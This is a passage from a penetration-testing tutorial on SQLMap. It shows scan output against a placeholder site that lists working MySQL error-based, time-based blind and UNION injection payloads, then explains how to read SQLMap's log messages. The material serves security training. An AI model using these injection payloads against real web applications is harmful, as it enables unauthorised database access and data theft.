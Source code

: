 ```shell

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/

```

Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.


# SQLMap Output Description

* * *

At the end of the previous section, the sqlmap output showed us a lot of info during its scan. This data is usually crucial to understand, as it guides us through the automated SQL injection process. This shows us exactly what kind of vulnerabilities SQLMap is exploiting, which helps us report what type of injection the web application has. This can also become handy if we wanted to manually exploit the web application once SQLMap determines the type of injection and vulnerable parameter.

* * *

## Log Messages Description

The following are some of the most common messages usually found during a scan of SQLMap, along with an example of each from the previous exercise and its description.

#### URL content is stable

`Log Message:`

- "target URL content is stable"

This means that there are no major changes between responses in case of continuous identical requests. This is important from the automation point of view since, in the event of stable responses, it is easier to spot differences caused by the potential SQLi attempts. While stability is important, SQLMap has advanced mechanisms to automatically remove the potential "noise" that could come from potentially unstable targets.
